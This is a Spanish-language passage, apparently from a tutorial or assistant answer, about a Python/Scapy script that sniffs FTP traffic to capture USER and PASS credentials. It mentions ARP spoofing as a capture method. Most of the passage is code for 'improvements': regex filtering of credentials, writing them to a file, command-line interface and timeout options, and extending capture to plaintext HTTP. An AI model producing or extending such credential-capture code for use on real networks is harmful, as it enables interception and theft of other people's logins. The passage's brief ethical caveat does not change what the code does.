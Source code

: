 4. **Limitaciones del Entorno**:
   - El dispositivo debe estar en la misma red que el tráfico FTP o en un punto donde pueda capturar los paquetes (por ejemplo, un switch en modo promiscuo o usando ARP spoofing, aunque esto es avanzado y éticamente cuestionable).
   - En redes modernas, el tráfico FTP es raro debido a su inseguridad, por lo que es más común en entornos de prueba.

---

### **Mejoras Posibles**
Aunque este código es eficiente y funcional, aquí hay algunas mejoras para hacerlo más robusto, usable y seguro:

1. **Manejo de Errores**:
   - Agregar un bloque `try`/`except` para manejar errores de decodificación u otros problemas.
   ```python
   try:
       texto = paquete[Raw].load.decode('utf-8', errors='ignore')
       if 'USER' in texto or 'PASS' in texto:
           print(f"[+] Capturado: {texto.strip()}")
   except Exception as e:
       print(f"[-] Error: {e}")
   ```

2. **Filtrado Más Preciso**:
   - Usar expresiones regulares para capturar `USER` y `PASS` con mayor precisión, evitando falsos positivos.
   ```python
   import re
   if re.search(r'^(USER|PASS)\s+(.+)$', texto):
       print(f"[+] Capturado: {texto.strip()}")
   ```

3. **Salida Formateada**:
   - Guardar las credenciales en un archivo o mostrarlas con un formato claro (por ejemplo, separar usuario y contraseña).
   ```python
   with open('credenciales.txt', 'a') as f:
       f.write(f"{texto.strip()}\n")
   ```

4. **Parámetros Configurables**:
   - Permitir al usuario especificar la interfaz, puerto, o duración de captura mediante argumentos de línea de comandos.
   ```python
   import argparse
   parser = argparse.ArgumentParser(description="Captura credenciales FTP")
   parser.add_argument('--iface', default='eth0', help='Interfaz de red')
   parser.add_argument('--timeout', type=int, help='Tiempo de captura (segundos)')
   args = parser.parse_args()
   sniff(iface=args.iface, prn=analisis, filter="tcp port 21", store=0, timeout=args.timeout)
   ```

5. **Soporte para Otros Protocolos**:
   - Extender el script para capturar credenciales en otros protocolos en texto plano (por ejemplo, HTTP en `tcp port 80`).
   ```python
   filter="tcp port 21 or tcp port 80"
   ```
